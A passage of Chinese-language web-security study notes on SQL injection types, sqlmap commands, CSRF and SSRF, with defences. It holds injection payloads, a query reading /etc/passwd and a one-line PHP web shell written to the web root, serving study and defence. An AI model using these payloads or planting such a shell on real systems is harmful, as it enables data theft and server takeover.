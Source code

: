     + 基于盲注
        + 时间盲注: 
            + 加入特定的时间函数，通过查看是web页面返回的时间差来判断注入的语句是否正确
            + `and if(ascii(substr((select schema_name from information_schema.schemata limit 1,1),1,1))>100,1,sleep(3))%23` 
        + 布尔型的盲注: `and ascii(substr(@@datadir,1,1)）>69 %23`

    + 二次注入:分为语句插入和语句执行
    + [宽字节注入](http://www.91ri.org/8611.html):  （字符集好方啊，我得专门总结一篇啊😂
        + mysql的转义函数：`addslashes`，`mysql_real_escape_string`，`mysql_escape_string`
        + `\`的ascii码为`0x5c`,会结合成新的字符
    + [其他](https://www.anquanke.com/post/id/85936)：
        + 读文件：SELECT LOAD_FILE('/etc/passwd');
        + 写文件：
            + `SELECT '<? system($_GET['c']); ?>' INTO OUTFILE/DUMPFILE '/var/www/shell.php';`
            + into dumpfile 能导出一个完整能执行的2进制文件,函数不对任何列或行进行终止，也不执行任何转义处理
            + 在UDF提权的场景是需要上传二进制文件等等用dumpfile
        + 带外通道：利用其他协议或者渠道从服务器提取数据. 它可能是HTTP（S）请求，DNS解析服务，SMB服务，Mail服务等.

+ [sqlmap的使用](http://www.zerokeeper.com/web-security/sqlmap-usage-summary.html)，最基础的使用方法如下：
    + sqlmap -u "xxx"
    + sqlmap -u "xxx" --current-db
    + sqlmap -u "xxx" -D DB名 --tables
    + sqlmap -u "xxx" -D DB名 -T 表名 --columns
    + sqlmap -u "xxx" -D DB名 -T 表名 -C 字段名 --dump
    + [tamper绕WAF](http://www.lengbaikai.net/?p=110)

+ 其他注入：
    + XML注入
    + 代码注入
    + CRLF注入：\r\n,0x0d,0x0a


+ 防御：
    + waf
    + 使用预编译语句，绑定变量
    + 检查数据类型，例如限制输入数据只能为int
    + 使用安全函数,encodeForSQL()
    + 最小权限原则，避免直接使用root

### CSRF:

+ 原理：通过伪装来自受信任用户的请求来利用受信任的网站,例如：用户登录某账户，浏览器获得cookie；攻击者诱使用户访问某构造好的恶意CSRF页面。

+ 防御：
    + 验证码
    + Referer Check（HTTPS跳转到HTTP不会发送Referer）
    + Anti CSRF Token

### SSRF（Server-Side Request Forgery）

[猪猪侠的ppt](https://github.com/Snowty/Snowty.github.io/blob/master/images/others/1Build%2BYour%2BSSRF%2BExploit%2BFramework%2B%E2%80%94%E2%80%94%2B%E4%B8%80%E4%B8%AA%E5%8F%AA%E5%BD%B1%E5%93%8D%E6%9C%89%E9%92%B1%E4%BA%BA%E7%9A%84%E6%BC%8F%E6%B4%9E%C2%B7%E7%8C%AA%E7%8C%AA%E4%BE%A0.pdf)
[浅谈SSRF漏洞](https://www.cnblogs.com/s0ky1xd/p/5859049.html)
[SSRF漏洞分析与利用](http://www.91ri.org/17111.html)
[SSRF in PHP](https://joychou.org/web/phpssrf.html)
